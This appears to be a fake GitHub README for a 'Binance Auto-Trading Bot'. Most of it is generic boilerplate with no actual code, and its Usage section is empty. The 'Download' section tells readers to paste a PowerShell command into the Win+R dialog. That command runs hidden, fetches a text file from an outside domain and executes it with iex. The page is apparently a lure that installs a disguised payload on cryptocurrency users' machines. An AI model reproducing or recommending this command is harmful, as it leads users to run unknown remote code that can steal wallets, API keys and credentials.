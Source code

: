 # Binance Auto-Trading Bot 🤖💰

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Project Description
**Binance Trade Bot** is an automated trading bot for the Binance platform that allows users to trade cryptocurrencies using algorithmic trading. This bot utilizes trading strategies based on technical analysis and can be configured to work with various cryptocurrency pairs.

## Key Features
- **Automated Trading**: The bot can automatically open and close trades based on the parameters you set.
- **Multi-Currency Support**: Works with various currency pairs on Binance.
- **Customizable Strategies**: Easily customizable trading strategies, including moving averages, RSI, and other indicators.
- **Security**: All API keys are stored securely, and the bot does not store users' personal data.
- **User -Friendly Interface**: Intuitive interface for setting up and monitoring trades.


## Usage 🚀
Run the bot using the following command:


## Example Strategies 📈
- **Moving Average Strategy**: Uses the crossover of short and long moving averages to open trades.
- **RSI Strategy**: Opens trades based on the relative strength index (RSI) values.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [Binance Community](https://www.binance.com/en/support)

---

**SEO Keywords**: Binance Trading Bot, binance trade, trading bot binance
